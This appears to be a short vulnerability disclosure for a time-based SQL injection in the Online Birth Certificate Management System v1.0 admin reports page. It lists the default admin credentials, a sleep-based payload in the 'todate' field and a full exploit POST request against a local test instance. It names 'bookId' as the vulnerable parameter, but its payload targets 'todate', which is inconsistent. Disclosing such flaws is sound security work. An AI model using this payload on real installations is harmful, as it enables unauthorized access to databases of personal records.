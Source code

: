 # Online Birth Certificate Management System - SQL injection

Online Birth Certificate Management System v1.0 exists to contain a SQL injection vulnerability via the bookId parameter at /admin/application-bwdates-reports-details.php

username:admin password:admin123 ----> {ip}/admin/application-bwdates-reports-details.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/admin/application-bwdates-reports-details.php has SQL injection

Payload: todate=0001-01-01'and(select*from(select+sleep(2))a/**/union/**/select+1)='

SQL injection because todate can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/11.png)

```sql
POST /CVE/OBCMS/admin/application-bwdates-reports-details.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 143
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: user_login=admin; userpassword=admin123; PHPSESSID=4okk1vi8496nglrc7ut709vl37
Origin: http://127.0.0.1
Referer: http://127.0.0.1/CVE/OBCMS/admin/between-dates-report.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

fromdate=0001-01-01&submit=&todate=0001-01-01%27and%28select%2Afrom%28select%2Bsleep%280%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/12.png)